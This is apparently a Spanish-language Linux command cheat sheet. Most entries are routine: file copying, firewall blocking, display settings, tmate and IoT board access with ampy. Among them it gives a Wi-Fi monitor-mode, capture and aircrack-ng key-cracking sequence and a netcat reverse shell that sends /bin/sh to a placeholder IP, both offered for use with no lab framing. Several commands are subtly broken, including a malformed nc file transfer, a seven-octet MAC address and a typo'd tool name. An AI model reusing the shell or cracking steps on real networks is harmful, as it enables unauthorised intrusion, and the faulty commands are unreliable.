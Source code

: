 ````

```scp nombrearchivo mi@servidor.local:~```

Bloquear IPs que intenten conectar sin permiso

```
 iptables -A INPUT -s $IPbloquear -j DROP
 ```

Elegir en cual servidor mostrar el display. 
```
export DISPLAY=:0 # en servidor
export DISPLAY=:1 # en local
 ```
Enviar archivo via ncat por tunel ssh

```
nc myDocument.pdf | ssh me.myserver.com nc -l -p 20000
# cliente
nc me.myserver.com 20000 > myDocument.pdf
 ```
Compartir la terminal en cualquier browser (```apt install tmate``` / ```yum install tmate```)

```tmate```
 
# Modo Monitor de Wifi, Sniffing y Crackeo con aircrack-ng (```apt install aircrack-ng```)
 
 ```
ifconfig wlan1 down
iwconfig wlan1 mode monitor
iwconfig
airdump-ng
airodump-ng -c 1 --bssid XX:XX:XX:XX:XX:XX:XX -w output wlan1
aircrack-ng -b 00:14:6C:7E:40:80 output.cap -w mydiccionary.txt 
```
Escaneo de Redes Wifi Disponibles

``` sudo iwlist wlan0 scan | egrep "Cell|ESSID|Signal|Rates"```

# Reverse Shell con Ncat

Desarrollador escucha en puerto 4444

``` nc -lvp 4444 ```

Cliente envía su Shell a la IP del desarrollador

```nc **IP** 4444 -e /bin/sh```

# IOT

Dispositivos conectados USB por conexión serial. Ubicarlo es sencillo con:

 ```dmesg | grep ttyUSB```
 
Podemos usar rshell y repl para acceder al dispositivo

 ``` rshell -p /dev/ttyUSB* && repl```
 
Para interactuar con el dispositivo, podemos usar:

```
 ampy --port /dev/ttyUSB** ls
 ampy --port /dev/ttyUSB** put archivo
 ampy --port /dev/ttyUSB** run archivo
 ampy --port /dev/ttyUSB** rm archivo
````